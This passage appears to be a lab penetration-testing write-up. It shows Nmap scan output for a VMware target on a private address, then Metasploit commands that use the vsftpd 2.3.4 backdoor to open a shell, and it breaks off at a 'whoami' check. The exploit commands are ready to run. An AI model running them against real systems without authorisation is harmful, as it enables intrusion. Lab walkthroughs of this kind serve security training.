 ```plaintext

2121/tcp open ccproxy-ftp

3306/tcp open mysql

5432/tcp open postgresql

5900/tcp open vnc

6000/tcp open X11

8009/tcp open ajp13

MAC Address: 00:0C:29:31:99:D1 (VMware)


Nmap done: 1 IP address (1 host up) scanned in 6.93 seconds

 
```

* **Analysis:** The scan revealed numerous open ports, including the historically vulnerable Port 21 (FTP), which was selected as the primary vector for exploitation.

### Step 2: Exploitation with Metasploit Framework

The Metasploit Framework was used to exploit a known backdoor in the VSFTPD service running on the target.

* **Metasploit Commands:**

```

msfconsole -q

use exploit/unix/ftp/vsftpd_234_backdoor

set RHOSTS 192.168.249.129

exploit

```

* **Result:** The exploit was successful, and a command shell session was opened to the victim machine.

### Step 3: Verifying the Foothold

To confirm the level of access achieved, two commands were run on the compromised host.

* **Command 1:**  `whoami`

* **Output 1:**

